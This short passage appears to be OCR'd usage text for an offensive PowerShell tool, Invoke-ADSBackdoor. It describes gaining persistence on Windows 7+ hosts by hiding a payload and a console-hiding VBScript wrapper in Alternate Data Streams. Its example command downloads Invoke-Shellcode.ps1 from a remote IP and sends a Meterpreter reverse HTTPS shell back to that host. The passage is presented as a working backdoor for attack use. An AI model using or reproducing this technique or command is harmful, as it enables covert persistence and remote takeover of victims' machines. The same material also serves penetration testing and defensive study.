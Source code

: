 This script will obtain persistence on a Windows 7+ machine under both Standard and Administrative accounts by 
using two Alternate Data Streams. The first Alternate Data stream stores the payloadand the second Alternate Data Stream 
stores some VBScript that acts as a wrapper in order to hide the DOS prompt when invoking the data stream containing the 
payload. When passing the arguments, you have to include the function and any parameters required by your payload. 
The arguments must also be in quotation marks.

Example:
PS C:\Users\test\Desktop> Invoke-ADSBackdoor -URL http://192.168.1.138/Invoke-Shellcode.ps1 -Arguments "Invoke-Shellcode
 -Lhost 192.168.1.138 -LPort 2222 -Payload windows/meterpreter/reverse_https -Force"
This will use the function Invoke-Shellcode in Invoke-Shellcode.ps1 to shovel meterpreter back to 192.168.1.138 on port 
2222 over HTTPS. 
